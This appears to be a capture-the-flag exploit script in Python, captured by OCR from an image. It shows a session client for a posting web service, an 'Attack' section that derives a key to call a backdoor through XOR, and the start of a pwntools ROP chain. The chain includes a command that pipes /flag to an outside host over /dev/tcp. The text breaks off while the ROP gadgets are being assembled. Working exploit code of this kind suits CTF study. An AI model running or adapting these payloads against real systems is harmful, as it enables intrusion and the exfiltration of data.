 ```python
        response = self.session.post(url, data=data)
        if response.status_code != 200:
            print(response.text)
            raise Exception("Failed to post message")
        text = response.text
        return int(re.findall(r'hx-get="/posts/(\d+)"', text)[0])
    
    def try_encrypt(self, post_id: int) -> bool:
        url = f"{BASE_URL}/posts/{post_id}"
        response = self.session.patch(url)
        if response.status_code != 200:
            return False
        return True
    
    def try_decrypt(self, post_id: int) -> bool:
        url = f"{BASE_URL}/posts/{post_id}/encrypt"
        response = self.session.patch(url)
        if response.status_code != 200:
            return False
        return True
    
    def get_encrypted_post(self, post_id) -> str:
        url = f"{BASE_URL}/posts/{post_id}/encrypt"
        response = self.session.get(url)
        if response.status_code != 200:
            raise Exception("Failed to get encrypted post")
        text = response.text
        return re.findall(r'<label>(.*)</label>', text,  re.DOTALL)[0].strip()

# Create user1
user1 = Conn()
user1.signup(user_id=1)

## Attack
# Create dummy post to get next_post_id
next_post_id = user1.post("dummy") + 1
# search ASCII readable plaintext
user_id = search_key(post_id = next_post_id)
user2 = Conn()
user2.signup(user_id=user_id)
key = generate_key(user_id=user_id, post_id=next_post_id)

# Prefix to call backdoor
enc_prefix = bytes(bytearray([a ^ b for (a, b) in zip(list(BACKDOOR_PREFIX), list(key[:len(BACKDOOR_PREFIX)]))])).decode('utf-8')


from pwn import *

"""
; 0x004d5277: pop rax; ret;
; 0x0052e2a9: pop rdi; ret;
; 0x0052b3f5: pop rsi; ret;
; 0x004773b8: mov [rdi+8], rax; ret;
"""

proc_base = 0x555816e00000 # TBA
addr_writable = 0x7ffc356aee70 # TBA
cmd = b"/bin/bash -c \"cat /flag  > /dev/tcp/XXX.XXX.XXX.XXX/5201\"\0"
cmd += b'\x00' * (8 - (len(cmd) % 8))

rop_pop_rax = proc_base + 0x004d5277
rop_pop_rdi = proc_base + 0x0052e2a9
```